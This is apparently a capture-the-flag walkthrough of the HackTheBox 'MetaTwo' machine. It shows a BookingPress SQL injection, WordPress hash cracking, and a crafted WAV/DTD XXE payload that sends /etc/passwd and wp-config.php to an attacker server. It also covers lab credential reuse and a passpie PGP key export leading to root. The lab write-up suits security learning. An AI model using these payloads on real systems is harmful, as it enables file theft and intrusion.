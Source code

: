 
# 1. Enum
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
21/tcp open  ftp?    syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)

visiting the websit it redirect us to 
metapress.htb
adding the domain to our hosts files

## 1.1 metapress.htb
![[Pasted image 20221116171624.png]]
running gobuster
![[Pasted image 20221116171752.png]]
looks like website is running on [[WordPress]]
![[Pasted image 20221116171927.png]]
Running wpscan
Found user admin and manager
![[Pasted image 20221116181843.png]]
## 1.2 wordpress enum
in /events checking out the source code
![[Pasted image 20221116181647.png]]

![[Pasted image 20221116181709.png]]
website is using bookingpress plugin
# 2. Exploit
found a github script that exploits bookingpress plugin
https://github.com/destr4ct/CVE-2022-0739
also checkout
https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357
![[Pasted image 20221116182740.png]]
and we got manager and admin encrypted passwords
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2

```
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```
## 2.1 cracking the password
cracking the hash with hashcat 
```
hashcat -m 400 -a 0 hash
```
[[Hashcat]]
![[Pasted image 20221116191650.png]]
![[Pasted image 20221116191731.png]]
we cracked manager password
wordpress:manager:partylikearockstar
![[Pasted image 20221116191914.png]]

uploading rev shell but didn't work due to filters
going back to wordpress version we found that wordpress 5.6 was vulnerable to XXE
https://github.com/motikan2010/CVE-2021-29447
https://nvd.nist.gov/vuln/detail/CVE-2021-29447

create the wav file and add our payload to it to upload our exploit 
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.16.12:8001/evil.dtd'"'"'>%remote;%init;%trick;] >\x00'> malicious.wav
```
create our .dtd exploit to get /etc/passwd ( modified the .dtd in the repo for easier decoding)
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://10.10.16.12:8001/?p=%file;'>" >
```
upload malicious.wav to the server
![[Pasted image 20221116211000.png]]
![[Pasted image 20221116211055.png]]


```
echo -n 'cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmlu
L25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zY
mluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYW
lsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXN
yL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6
eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6M
zk6aXJjZDovcnVuL2lyY2Q6L3Vzci9zYmluL25vbG9naW4KZ25hdHM6eDo0MTo0MTpHbmF0cyBCdWctUmVwb3J0aW5nIFN5c3RlbSAoYWRtaW4pOi92YXIvbGliL2duYXRzOi91c3Ivc2Jpbi9ub2xvZ2luCm
5vYm9keTp4OjY1NTM0OjY1NTM0Om5vYm9keTovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KX2FwdDp4OjEwMDo2NTUzNDo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtbmV
0d29yazp4OjEwMToxMDI6c3lzdGVtZCBOZXR3b3JrIE1hbmFnZW1lbnQsLCw6L3J1bi9zeXN0ZW1kOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtcmVzb2x2ZTp4OjEwMjoxMDM6c3lzdGVtZCBSZXNvbHZl
ciwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4KbWVzc2FnZWJ1czp4OjEwMzoxMDk6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpzc2hkOng6MTA0OjY1NTM0OjovcnVuL3NzaGQ6L
3Vzci9zYmluL25vbG9naW4Kam5lbHNvbjp4OjEwMDA6MTAwMDpqbmVsc29uLCwsOi9ob21lL2puZWxzb246L2Jpbi9iYXNoCnN5c3RlbWQtdGltZXN5bmM6eDo5OTk6OTk5OnN5c3RlbWQgVGltZSBTeW5jaH
Jvbml6YXRpb246LzovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLWNvcmVkdW1wOng6OTk4Ojk5ODpzeXN0ZW1kIENvcmUgRHVtcGVyOi86L3Vzci9zYmluL25vbG9naW4KbXlzcWw6eDoxMDU6MTExOk15U1F
MIFNlcnZlciwsLDovbm9uZXhpc3RlbnQ6L2Jpbi9mYWxzZQpwcm9mdHBkOng6MTA2OjY1NTM0OjovcnVuL3Byb2Z0cGQ6L3Vzci9zYmluL25vbG9naW4KZnRwOng6MTA3OjY1NTM0Ojovc3J2L2Z0cDovdXNy
L3NiaW4vbm9sb2dpbgo=' | base64 -d --ignore-garbage 

```
was always getting error during decoding but fixed with --ignore-garbage 
and we have /etc/passwd
![[Pasted image 20221116213318.png]]
users found:
jnelson
root
tried to get jnelson user ssh key with the exploit but didn't work
getting webserver config file


![[Pasted image 20221116214856.png]]
tried /etc/nginx/nginx.conf didn't find much
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/nginx/sites-available/default">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://10.10.16.12:8001/?p=%file;'>" >
```
![[Pasted image 20221116215245.png]]
now we have metapress.htb path we can also read it's conf file

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/var/www/metapress.htb/blog/wp-config.php">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://10.10.16.12:8001/?p=%file;'>" >
```

![[Pasted image 20221116215639.png]]
mysql:blog:635Aq@TdqrCwXFUZ

ftp creds
![[Pasted image 20221116215702.png]]
ftp :metapress.htb:9NYS_ii@FyL_p5M2NvJ
![[Pasted image 20221116215820.png]]

![[Pasted image 20221116220259.png]]
looks like all the website is uploaded to ftp
and in mailer directory we found .php file 
![[Pasted image 20221116220655.png]]

![[Pasted image 20221116220634.png]]

ssh :jnelson:Cb4_JmWM8zUZWMu@Ys 
![[Pasted image 20221116220738.png]]
#userflag c291bca8a918614c35a55c795912ee0b
apparently it's ssh password and we are in as jnelson
found weird directory in jnelson home /.passpie
https://github.com/marcwebbie/passpie
and we found
pgp messages and pgp private key


root.pass
```
comment: ''
fullname: root@ssh
login: root
modified: 2022-06-26 08:58:15.621572
name: ssh
password: '-----BEGIN PGP MESSAGE-----


  hQEOA6I+wl+LXYMaEAP/T8AlYP9z05SEST+Wjz7+IB92uDPM1RktAsVoBtd3jhr2

  nAfK00HJ/hMzSrm4hDd8JyoLZsEGYphvuKBfLUFSxFY2rjW0R3ggZoaI1lwiy/Km

  yG2DF3W+jy8qdzqhIK/15zX5RUOA5MGmRjuxdco/0xWvmfzwRq9HgDxOJ7q1J2ED

  /2GI+i+Gl+Hp4LKHLv5mMmH5TZyKbgbOL6TtKfwyxRcZk8K2xl96c3ZGknZ4a0Gf

  iMuXooTuFeyHd9aRnNHRV9AQB2Vlg8agp3tbUV+8y7szGHkEqFghOU18TeEDfdRg

  krndoGVhaMNm1OFek5i1bSsET/L4p4yqIwNODldTh7iB0ksB/8PHPURMNuGqmeKw

  mboS7xLImNIVyRLwV80T0HQ+LegRXn1jNnx6XIjOZRo08kiqzV2NaGGlpOlNr3Sr

  lpF0RatbxQGWBks5F3o=

  =uh1B

  -----END PGP MESSAGE-----
```
it's encrypted PGP message

and inside .keys we have public and private key 
removing public key and we have private key
```
-----BEGIN PGP PRIVATE KEY BLOCK-----                                                                                                                        
                                                                                                                                                             
lQUBBGK4V9YRDADENdPyGOxVM7hcLSHfXg+21dENGedjYV1gf9cZabjq6v440NA1                                                                                             
AiJBBC1QUbIHmaBrxngkbu/DD0gzCEWEr2pFusr/Y3yY4codzmteOW6Rg2URmxMD                                                                                             
/GYn9FIjUAWqnfdnttBbvBjseL4sECpmgxTIjKbWAXlqgEgNjXD306IweEy2FOho                                                                                             
3LpAXxfk8C/qUCKcpxaz0G2k0do4+VTKZ+5UDpqM5++soJqhCrUYudb9zyVyXTpT                                                                                             
ZjMvyXe5NeC7JhBCKh+/Wqc4xyBcwhDdW+WU54vuFUthn+PUubEN1m+s13BkyvHV                                                                                             
gNAM4v6terRItXdKvgvHtJxE0vhlNSjFAedACHC4sN+dRqFu4li8XPIVYGkuK9pX                                                                                             
5xA6Nj+8UYRoZrP4SYtaDslT63ZaLd2MvwP+xMw2XEv8Uj3TGq6BIVWmajbsqkEp                                                                                             
tQkU7d+nPt1aw2sA265vrIzry02NAhxL9YQGNJmXFbZ0p8cT3CswedP8XONmVdxb                                                                                             
a1UfdG+soO3jtQsBAKbYl2yF/+D81v+42827iqO6gqoxHbc/0epLqJ+Lbl8hC/sG                                                                                             
WIVdy+jynHb81B3FIHT832OVi2hTCT6vhfTILFklLMxvirM6AaEPFhxIuRboiEQw                                                                                             
8lQMVtA1l+Et9FXS1u91h5ZL5PoCfhqpjbFD/VcC5I2MhwL7n50ozVxkW2wGAPfh                                                                                             
cODmYrGiXf8dle3z9wg9ltx25XLsVjoR+VLm5Vji85konRVuZ7TKnL5oXVgdaTML                                                                                             
qIGqKLQfhHwTdvtYOTtcxW3tIdI16YhezeoUioBWY1QM5z84F92UVz6aRzSDbc/j
FJOmNTe7+ShRRAAPu2qQn1xXexGXY2BFqAuhzFpO/dSidv7/UH2+x33XIUX1bPXH
FqSg+11VAfq3bgyBC1bXlsOyS2J6xRp31q8wJzUSlidodtNZL6APqwrYNhfcBEuE
PnItMPJS2j0DG2V8IAgFnsOgelh9ILU/OfCA4pD4f8QsB3eeUbUt90gmUa8wG7uM
FKZv0I+r9CBwjTK3bg/rFOo+DJKkN3hAfkARgU77ptuTJEYsfmho84ZaR3KSpX4L
/244aRzuaTW75hrZCJ4RxWxh8vGw0+/kPVDyrDc0XNv6iLIMt6zJGddVfRsFmE3Y
q2wOX/RzICWMbdreuQPuF0CkcvvHMeZX99Z3pEzUeuPu42E6JUj9DTYO8QJRDFr+
F2mStGpiqEOOvVmjHxHAduJpIgpcF8z18AosOswa8ryKg3CS2xQGkK84UliwuPUh
S8wCQQxveke5/IjbgE6GQOlzhpMUwzih7+15hEJVFdNZnbEC9K/ATYC/kbJSrbQM
RfcJUrnjPpDFgF6sXQJuNuPdowc36zjE7oIiD69ixGR5UjhvVy6yFlESuFzrwyeu
TDl0UOR6wikHa7tF/pekX317ZcRbWGOVr3BXYiFPTuXYBiX4+VG1fM5j3DCIho20
oFbEfVwnsTP6xxG2sJw48Fd+mKSMtYLDH004SoiSeQ8kTxNJeLxMiU8yaNX8Mwn4
V9fOIdsfks7Bv8uJP/lnKcteZjqgBnXPN6ESGjG1cbVfDsmVacVYL6bD4zn6ZN/n
WP4HAwKQfLVcyzeqrf8h02o0Q7OLrTXfDw4sd/a56XWRGGeGJgkRXzAqPQGWrsDC
6/eahMAwMFbfkhyWXlifgtfdcQme2XSUCNWtF6RCEAbYm0nAtDNQYXNzcGllIChB
dXRvLWdlbmVyYXRlZCBieSBQYXNzcGllKSA8cGFzc3BpZUBsb2NhbD6IkAQTEQgA
OBYhBHxnhqdWG8hPUEhnHjh3dcNXRdIDBQJiuFfWAhsjBQsJCAcCBhUKCQgLAgQW
AgMBAh4BAheAAAoJEDh3dcNXRdIDRFQA/3V6S3ad2W9c1fq62+X7TcuCaKWkDk4e
qalFZ3bhSFVIAP4qI7yXjBXZU4+Rd+gZKp77UNFdqcCyhGl1GpAJyyERDZ0BXwRi
uFfWEAQAhBp/xWPRH6n+PLXwJf0OL8mXGC6bh2gUeRO2mpFkFK4zXE5SE0znwn9J
CBcYy2EePd5ueDYC9iN3H7BYlhAUaRvlU7732CY6Tbw1jbmGFLyIxS7jHJwd3dXT
+PyrTxF+odQ6aSEhT4JZrCk5Ef7/7aGMH4UcXuiWrgTPFiDovicAAwUD/i6Q+sq+
FZplPakkaWO7hBC8NdCWsBKIQcPqZoyoEY7m0mpuSn4Mm0wX1SgNrncUFEUR6pyV
jqRBTGfPPjwLlaw5zfV+r7q+P/jTD09usYYFglqJj/Oi47UVT13ThYKyxKL0nn8G
JiJHAWqExFeq8eD22pTIoueyrybCfRJxzlJV/gcDAsPttfCSRgia/1PrBxACO3+4
VxHfI4p2KFuza9hwok3jrRS7D9CM51fK/XJkMehVoVyvetNXwXUotoEYeqoDZVEB
J2h0nXerWPkNKRrrfYh4BBgRCAAgFiEEfGeGp1YbyE9QSGceOHd1w1dF0gMFAmK4
V9YCGwwACgkQOHd1w1dF0gOm5gD9GUQfB+Jx/Fb7TARELr4XFObYZq7mq/NUEC+P
o3KGdNgA/04lhPjdN3wrzjU3qmrLfo6KI+w2uXLaw+bIT1XZurDN
=7Uo6
-----END PGP PRIVATE KEY BLOCK-----
```


![[Pasted image 20221116224955.png]]


and now we crack it **hopefully**
![[Pasted image 20221116225007.png]]
and it's cracked
![[Pasted image 20221116230558.png]]
![[Pasted image 20221116230635.png]]
back to the target machine we can now extract passwords from passpie
first we create a file to dump passwords in 
```bash
touch pwned.txt
passpie list
passpie export pwned.txt

```
![[Pasted image 20221116231209.png]]
and we have the root's password
![[Pasted image 20221116231603.png]]
#rootflag 87dd7422c92cb9bdeaf940cc5c8208ae

